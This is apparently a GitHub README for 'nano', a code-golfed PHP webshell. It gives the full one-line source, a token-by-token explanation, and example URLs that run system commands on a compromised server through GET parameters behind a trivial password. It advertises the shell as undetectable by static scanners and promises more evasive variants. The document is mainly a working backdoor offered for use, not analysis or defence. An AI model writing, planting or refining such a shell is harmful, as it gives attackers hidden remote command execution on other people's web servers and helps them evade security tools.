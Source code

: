 # nano
nano is a PHP webshell which is code golfed to be extremely stealthy.\
Put it on watch maybe, I am planning to upload some variantions of it really soon.

### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Features
- 39 bytes in size ([nodistribute.com](http://nodistribute.com/) said its an empty file lmao)
- Fully undetectable by security solutions that scan static code
- Supports password protection
- Fully flexible & efficient if you know stuff

## Functioning
```php
<?$x=$_GET;($x[p]=='_'?$x[f]($x[c]):y);
```
Yep, that's the source code and I know that looks kind of puzzling but let me explain it.

- `<?` a valid replacement for `<?php`

- `$x=$_GET;` defines a variable `x` which holds the value `$_GET` so we can use just `$x` instead of `$_GET` to save space.

- `(condition ? code : code )` is a shorthand for `if (condition){code}else{code}`. You can read more about it [here](https://davidwalsh.name/php-shorthand-if-else-ternary-operators).

- `$x[p]=='_'` this is the condition which is mentioned in the previous part. It checks if the value of parameter p is equal to `'_'`. Yep, `_` is the password.

- If the password matches, the code `$x[f]($x[c])` is executed. As you guys know, PHP's syntax for executing functions is `function(argument)`, I kept both `function` and `arugment` variables so you can specify them through a GET request.

- The `y` does nothing here, I just had to add it to maintain the syntax.

- Why didn't I end it with a `?>`? Because we don't need to.

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
This 39 characters of code is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.

